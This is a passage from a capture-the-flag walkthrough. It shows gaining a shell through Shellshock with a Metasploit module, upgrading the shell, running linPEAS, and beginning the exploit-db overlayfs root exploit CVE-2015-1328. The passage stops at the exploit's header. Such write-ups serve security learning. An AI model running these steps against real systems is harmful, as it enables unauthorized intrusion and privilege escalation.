 Looks like this box is vulnerable to `shellshock`, which essentially causes the bash shell to run commands from environment variables unintentionally. Fortunately for us, there is a Metasploit module for this called `apache_mod_cgi_bash_env_exec`.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130530225/61069132-5427-411d-be6e-73cbfc691595.png){: .center-image }

Configure and run it.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130540175/a983307a-ab96-4e24-ac8d-fa6d482c04fd.png){: .center-image }

Keep in mind that the `TARGETURI` of `/cgi-bin/test.cgi` was identified in our `Nikto` scan. Now that we have a meterpreter session, let's drop into a shell and look for our first flag. But first, let's make this shell better:

```bash
python -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130560215/7e80b5a9-8705-47e6-8a65-0e91abec7079.jpeg){: .center-image }

### Step 4: linPEAS

Now on to elevating privileges to get the root flag. We'll enumerate using `linPEAS`.

Start python server:

```bash
python3 -m http.server 8000
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130586704/f1949b67-1de1-4ded-a3e8-9437915c2d52.png){: .center-image }

Upload binary, set permissions, and run.

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130595584/3ae31ca2-1211-4e6a-8820-87b153ff9fae.png){: .center-image }

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1691130600528/595d72ef-4b04-4817-96ca-8e5779ea813a.png){: .center-image }

Oof, the Linux version has a vulnerability with `overlayfs` improperly handling permissions and can be exploited to elevate privileges.

### Step 5: Privesc and Root

Exploit (Source: [https://www.exploit-db.com/exploits/37292](https://www.exploit-db.com/exploits/37292)):

```c
/*
# Exploit Title: ofs.c - overlayfs local root in ubuntu
# Date: 2015-06-15
# Exploit Author: rebel
# Version: Ubuntu 12.04, 14.04, 14.10, 15.04 (Kernels before 2015-06-15)
# Tested on: Ubuntu 12.04, 14.04, 14.10, 15.04
# CVE : CVE-2015-1328     (http://people.canonical.com/~ubuntu-security/cve/2015/CVE-2015-1328.html)

*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*=*
CVE-2015-1328 / ofs.c
overlayfs incorrect permission handling + FS_USERNS_MOUNT

user@ubuntu-server-1504:~$ uname -a
Linux ubuntu-server-1504 3.19.0-18-generic #18-Ubuntu SMP Tue May 19 18:31:35 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
user@ubuntu-server-1504:~$ gcc ofs.c -o ofs
user@ubuntu-server-1504:~$ id
uid=1000(user) gid=1000(user) groups=1000(user),24(cdrom),30(dip),46(plugdev)
user@ubuntu-server-1504:~$ ./ofs
```